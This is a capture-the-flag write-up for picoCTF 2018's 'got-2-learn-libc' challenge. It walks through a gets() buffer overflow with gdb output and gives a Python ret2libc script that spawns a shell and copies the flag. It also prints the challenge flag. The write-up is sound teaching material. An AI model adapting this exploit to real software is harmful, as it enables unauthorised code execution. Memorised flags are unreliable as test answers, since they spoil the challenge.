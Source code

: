 ```yaml
---
layout: posts
title:  Pico CTF 2018 - Got-2-learn-libc
date:   2018-09-27
categories: [CTFs, pico18]
---
```


[~$ cd ..](/ctfs/pico18/2018/09/27/index.html)

>This program gives you the address of some system calls.
>Can you get a shell?
>You can find the program in /problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33 on the shell server. Source.


The given source is as follows:

> ```c
>#include <stdio.h>
>#include <stdlib.h>
>#include <string.h>
>#include <unistd.h>
>#include <sys/types.h>
>
>#define BUFSIZE 148
>#define FLAGSIZE 128
>
>char useful_string[16] = "/bin/sh"; /* Maybe this can be used to spawn a shell? */
>
>
>void vuln(){
>	char buf[BUFSIZE];
>	puts("Enter a string:");
>	gets(buf);
>	puts(buf);
>	puts("Thanks! Exiting now...");
>}
>
>int main(int argc, char **argv){
>
>	setvbuf(stdout, NULL, _IONBF, 0);
>
>	// Set the gid to the effective gid
>	// this prevents /bin/sh from dropping the privileges
>	gid_t gid = getegid();
>	setresgid(gid, gid, gid);
>
>	puts("Here are some useful addresses:\n");
>
>	printf("puts: %p\n", puts);
>	printf("fflush %p\n", fflush);
>	printf("read: %p\n", read);
>	printf("write: %p\n", write);
>	printf("useful_string: %p\n", useful_string);
>
>	printf("\n");
>
>	vuln();
>	return 0;
>}
> ```

The idea here is to exploit `gets` to call `system`, passing "/bin/sh" as parameter. We don't know the address of `system`, but we can compute the constant
difference between its address and, let's say `puts`'s one.

## Find the overflow

A first thing we can do is to find how many bytes we need to write before smashing the return address.

> ```
>gdb-peda$ disas vuln
>Dump of assembler code for function vuln:
>   0x000007a0 <+0>:	push   ebp
>   0x000007a1 <+1>:	mov    ebp,esp
>   0x000007a3 <+3>:	push   ebx
>   0x000007a4 <+4>:	sub    esp,0xa4
>   0x000007aa <+10>:	call   0x670 <__x86.get_pc_thunk.bx>
>   0x000007af <+15>:	add    ebx,0x1851
>   0x000007b5 <+21>:	sub    esp,0xc
>   0x000007b8 <+24>:	lea    eax,[ebx-0x1670]
>   0x000007be <+30>:	push   eax
>   0x000007bf <+31>:	call   0x618
>   0x000007c4 <+36>:	add    esp,0x10
>   0x000007c7 <+39>:	sub    esp,0xc
>   0x000007ca <+42>:	lea    eax,[ebp-0x9c]
>   0x000007d0 <+48>:	push   eax
>   0x000007d1 <+49>:	call   0x5b0 <gets@plt>
>   0x000007d6 <+54>:	add    esp,0x10
>   0x000007d9 <+57>:	sub    esp,0xc
>   0x000007dc <+60>:	lea    eax,[ebp-0x9c]
>   0x000007e2 <+66>:	push   eax
>   0x000007e3 <+67>:	call   0x618
>   0x000007e8 <+72>:	add    esp,0x10
>   0x000007eb <+75>:	sub    esp,0xc
>   0x000007ee <+78>:	lea    eax,[ebx-0x1660]
>   0x000007f4 <+84>:	push   eax
>   0x000007f5 <+85>:	call   0x618
>   0x000007fa <+90>:	add    esp,0x10
>   0x000007fd <+93>:	nop
>   0x000007fe <+94>:	mov    ebx,DWORD PTR [ebp-0x4]
>   0x00000801 <+97>:	leave  
>   0x00000802 <+98>:	ret    
>End of assembler dump.
>gdb-peda$ break *vuln+54
>Breakpoint 1 at 0x7d6
>gdb-peda$ run
>Starting program: .../got-2-learn-libc
>Here are some useful addresses:
>
>puts: 0xf7e4f890
>fflush 0xf7e4d9f0
>read: 0xf7ec6b60
>write: 0xf7ec6bd0
>useful_string: 0x56557030
>
>Enter a string:
>AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
> ```

Now, let's count how many bytes there we need to fill the buffer and reach the return address. Our 'A's begin at `0xffffd10c` and
the address to smash is at `$ebp+4=0xffffd1ac`, then we need 160 bytes:

> ```
>gdb-peda$ info reg ebp
>ebp            0xffffd1a8	0xffffd1a8
>gdb-peda$ x/50wx $esp
>0xffffd0f0:	0xffffd10c	0x00000001	0x00000020	0x565557af
>0xffffd100:	0x565559b8	0x00000020	0xf7e5859b	0x41414141
>0xffffd110:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd120:	0x41414141	0x41414141	0xf7fa0041	0xf7e5abeb
>0xffffd130:	0xf7fa3d60	0xf7fa3da7	0x00000001	0xf7fd4110
>0xffffd140:	0x00000001	0x00000001	0xf7e5ab19	0xf7fa4870
>0xffffd150:	0xf7fa3d60	0xf7fa3000	0xffffd198	0xf7e516c5
>0xffffd160:	0xf7fa3d60	0x0000000a	0xf7e31f7b	0x56557000
>0xffffd170:	0xf7fe800b	0x56557000	0x00000001	0xf7dee700
>0xffffd180:	0xffffd1c8	0xf7fee710	0xf7fa4870	0x56557000
>0xffffd190:	0x00000001	0xf7fa3000	0xffffd1c8	0x565558ec
>0xffffd1a0:	0x0000000a	0x56557000	0xffffd1c8	0x565558f4
>0xffffd1b0:	0x00000001	0xffffd274
> ```

The payload will therefore be composed as follows:

160 \* 'X' + @system + @system + @"/bin/sh"

_The second @system is actually the address for the base pointer, could be whatever we want_

## Find the offset and script it

Second thing we can do is to compute the offset between `@puts` and `@system`.

> ```
>gdb-peda$ print system
>$1 = {<text variable, no debug info>} 0xf7e2a850 <system>
> ```

We previously got the address of `puts`: `0xf7e4f890`. The difference is therefore: 0xf7e4f890-0xf7e2a850 = 151616

Yes, but there is a problem: how can we passed non-ascii addresses to the program during the program execution ? As usual, Python
will be our best friend! Quite dirty but does the job:

> ```python
>import subprocess
>import struct
>
>p = subprocess.Popen(['./vuln'], stdout=subprocess.PIPE, stdin=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
>
>main = None
>stdout_data = p.stdout.readline()
>useful_address = None
>system = None
>while stdout_data != None:
>	print stdout_data[:-1]
>	index = stdout_data.find('useful_string')
>	if index != -1:
>		useful_address = stdout_data[index+17:index+17+8]
>		p.stdin.write(160 * 'A' + 2 * struct.pack("<I", system) + struct.pack("<I", int(useful_address, 16)) + '\n')
>		break
>	index = stdout_data.find('puts')
>	if index != -1:
>		puts = stdout_data[index+8:index+8+8]
>		system = int(puts, 16)- 151616
>	stdout_data = p.stdout.readline()
>print p.stdout.readline()
>print p.stdout.readline()
>print p.stdout.readline()
>p.stdin.write('touch test.txt\n')
> ```

The script parses the program output to obtain "/bin/sh"'s address and computes the return address. Because of endianess, `struct` is used to write it properly.
However, the output of the shell command, at the end, could not be displayed. To test the script, we `touch`ed a file, and it was a success.

However, on the remote machine, the offset was not the same. We sligthly modified our script:

> ```python
>import subprocess
>import struct
>
>p = subprocess.Popen(['/problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33/vuln'], stdout=subprocess.PIPE, stdin=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
>
>main = None
>system = None
>stdout_data = p.stdout.readline()
>useful_address = None
>system = None
>while stdout_data != None:
>	print stdout_data[:-1]
>	index = stdout_data.find('useful_string')
>	if index != -1:
>		useful_address = stdout_data[index+17:index+17+8]
>		p.stdin.write(160 * 'A' + 2 * struct.pack("<I", system) + struct.pack("<I", int(useful_address, 16)) + '\n')
>		break
>	index = stdout_data.find('puts')
>	if index != -1:
>		puts = stdout_data[index+8:index+8+8]
>		system = int(puts, 16)- 149504 # /!\ Not the same offset
>	stdout_data = p.stdout.readline()
>print p.stdout.readline()
>print p.stdout.readline()
>print p.stdout.readline()
>p.stdin.write('cp /problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33/flag.txt flag.txt\n')
>print p.stdout.readline()
> ```

We then moved on the remote machine and created a temporary folder with the script inside. We ran it, and saw that a file named `flag.txt` was copied!

FLAG: **picoCTF{syc4al1s_4rE_uS3fUl_6319ec91}**
